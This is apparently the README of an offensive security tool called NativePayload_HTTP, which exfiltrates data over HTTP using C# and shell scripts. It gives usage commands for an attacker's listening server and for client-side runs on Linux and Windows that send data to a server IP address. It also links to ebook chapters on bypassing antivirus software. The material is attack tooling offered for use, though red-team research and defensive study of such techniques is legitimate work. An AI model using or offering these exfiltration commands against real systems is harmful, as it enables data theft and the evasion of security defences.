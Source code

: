 # NativePayload_HTTP
Data Exfiltration via HTTP Traffic (C# and Shell Script)

this code has two parts: 1.Server-Side and 2.Client-Side

Note:in server-side this code tested by Kali linux only! 

client-side tested by kali 2017-18 and ubuntu 14 also windows7 and 2012

![](https://github.com/DamonMohammadbagher/NativePayload_HTTP/blob/master/NativePayload_HTTP.png)

# 1.Server-Side (linux only):
./NativePayload_HTTP.sh -exfilwebserver

# 2.Client-Side (linux):
./NativePayload_HTTP.sh  -dumpcmd  [ServerIPv4]  [Port]  [Internal-delay]

Example: ./NativePayload_HTTP.sh  -dumpcmd   192.168.56.1  80  0.4

# 2.Client-Side (windows):
NativePayload_HTTP.exe  -dumpcmd  [ServerIPv4]  [Port] 

Example: NativePayload_HTTP.exe  -dumpcmd  192.168.56.1 80 

# Note: for more information and help (step by step) , Please read these PDF files:

NativePayload_HTTP (Part1): https://github.com/DamonMohammadbagher/eBook-BypassingAVsByCSharp/blob/master/CH12/Bypassing%20Anti%20Viruses%20by%20C%23.NET%20Programming%20Chapter%2012-Part1.pdf

NativePayload_HTTP (Part2): https://github.com/DamonMohammadbagher/eBook-BypassingAVsByCSharp/blob/master/CH12/Bypassing%20Anti%20Viruses%20by%20C%23.NET%20Programming%20Chapter%2012-Part2.pdf
